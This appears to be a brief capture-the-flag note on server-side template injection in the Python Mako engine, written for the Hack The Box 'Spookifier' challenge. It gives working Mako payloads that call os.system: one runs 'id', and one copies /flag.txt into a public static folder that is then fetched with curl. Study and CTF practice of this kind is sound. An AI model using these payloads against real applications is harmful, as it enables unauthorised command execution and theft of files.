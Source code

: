 
2025-07-14 15:04

Tags: [[Server-side template injection (SSTI)]]

## Mako (Python)

on using a payload from payloadallthings for mako (A python template engine)
```
${self.module.cache.util.os.system("id")}
```
It only shows `0`, which is the error code that `os.system` returns. Using `os.system` we will not be able to read the flag directly, but we have code execution, so we can copy the `/flag.txt` into a public directory:

```
${self.module.cache.util.os.system("cp /flag.txt /app/application/static/css")}  
```
further access the flag by using `$ curl 161.35.174.99:30548/static/css/flag.txt`


### References
https://app.hackthebox.com/challenges/Spookifier - Py SSTI 